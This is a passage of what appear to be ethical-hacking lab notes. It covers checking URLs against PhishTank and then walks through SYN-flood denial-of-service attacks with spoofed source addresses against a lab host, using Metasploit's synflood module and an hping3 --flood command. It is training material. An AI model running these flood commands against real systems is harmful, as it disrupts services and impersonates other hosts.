 ### Task 2: Detect phishing using PhishTank

+ Login to `Windows 11` and login to `Admin`
+ Open `Microsoft Edge` and traverse to `https://www.phishtank.com`
+ The `PhishTank` webpage appears, displaying a list of phishing websites under `Recent Submissions`
+ Click on any phishing website `ID` in the `Recent Submissions` list (in this case, `7486626`) to view detailed information about it
+ If the site is a phishing site, `PhishTank` returns a result stating that the website “`Is a phish`” as shown in the screenshot.
+ In the `Found a phishing site?` text field, type a website URL to be checked for phishing (in this example, the URL entered is `be-ride.ru/confirm`). Click the `Is it a phish?` button
+ f the site is a phishing site, `PhishTank` returns a result stating that the website “`Is a phish`”

---

# Module 10: Denial-of-Service

## Lab 1: Perform DoS and DDoS Attacks using Various Techniques

### Task 1: Perform a DoS attack (SYN flooding) on a target host using Metasploit

+ Open the `terminal`
+ sudo su
+ cd
+ nmap -p 21 (Target IP address)
  + 10.10.1.11
+ perform SYN flooding on the target machine (Windows 11) using port 21
+ msfconsole
+ use auxiliary/dos/tcp/synflood
+ set RHOST 10.10.1.11
+ set RPORT 21
+ set SHOST 10.10.1.19
+ exploit
+ Open `wireshark` on `Windows 11` with `Admin`
+ Start a capture on the `Ethernet` interface
+ `Wireshark` displays the traffic coming from the machine. Here, you can observe that the `Source IP` address is that of the `Windows Server 2019` (10.10.1.19) machine. This implies that the IP address of the `Parrot Security` machine has been spoofed.

### Task 2: Perform a DoS attack on a target host using hping3

#### DoS attack

+ Open `wireshark` on `Windows 11` with `Admin`
+ Start a capture on the `Ethernet` interface
+ Open the `terminal`
+ sudo su
+ cd
+ hping3 -S 10.10.1.11 -a 10.10.1.19 -p 22 --flood
  + -S: sets the SYN flag
  + -a: spoofs the IP address
  + -p: specifies the destination port
  + --flood: sends a huge number of packets
+ Stop the SYN flooding of the target machine
+ View the `I/O Graph` in the `statistics` tab

